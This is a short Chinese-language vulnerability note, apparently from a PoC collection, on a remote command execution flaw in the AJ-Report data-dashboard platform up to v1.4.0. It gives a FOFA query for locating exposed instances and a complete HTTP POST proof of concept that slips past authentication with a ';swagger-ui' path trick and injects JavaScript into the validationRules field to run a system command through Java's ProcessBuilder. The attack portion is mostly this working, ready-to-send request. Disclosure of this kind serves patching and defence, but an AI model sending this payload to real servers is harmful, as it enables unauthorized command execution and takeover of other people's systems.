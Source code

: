 ## AJ-Report开源数据大屏存在远程命令执行漏洞



该平台可以通过post方式在validationRules参数对应值中进行命令执行，可以获得服务器权限，登陆管理后台接管大屏。如果被不法分子利用，书写反动标语，危害后果十分严重。

## 影响版本



```
最新版本v1.4.0
```

​    

## fofa



```
title="AJ-Report"
```

​    

## poc



```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

​    

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727263341775-db665279-3b99-4834-8086-312c2bbd0f46.png![image-20240925210215380](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925210215380.png)

